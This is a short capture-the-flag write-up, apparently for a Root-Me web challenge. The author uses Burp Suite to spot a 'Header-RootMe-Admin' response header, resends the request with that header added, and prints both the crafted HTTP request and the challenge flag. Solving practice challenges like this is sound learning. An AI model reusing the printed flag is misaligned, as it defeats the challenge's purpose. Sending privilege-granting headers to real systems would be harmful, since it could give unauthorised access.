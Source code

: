 ```yaml
---
custom_edit_url: null
sidebar_position: 10
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/cf7d1f93-5c3c-4a1e-99d9-df3cd36acf9f)

Maybe the clue lie in the response headers. 

In order to check the response headers we have to intercept the request using Burpsuite.

![2](https://github.com/Knign/Write-ups/assets/110326359/9c19cc3a-66bd-40e8-88d1-8bd3985d47ea)

Let's forward the request to the `Repeater`.

![3](https://github.com/Knign/Write-ups/assets/110326359/de8e5b8e-c91d-4f70-8038-470d977a9118)

The response has a header called `Header-RootMe-Admin`. We can include this header in our next request.

## HTTP Request
```
GET /web-serveur/ch5/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Header-RootMe-Admin: none
DNT: 1
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1697389021.11.1.1697389201.0.0.0; _ga=GA1.1.1863804672.1697290591
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
Finally, we have to send this request to the server.

![4](https://github.com/Knign/Write-ups/assets/110326359/41cdaf93-3927-4352-b23c-6f3b5a729c67)

## Flag
```
HeadersMayBeUseful
```
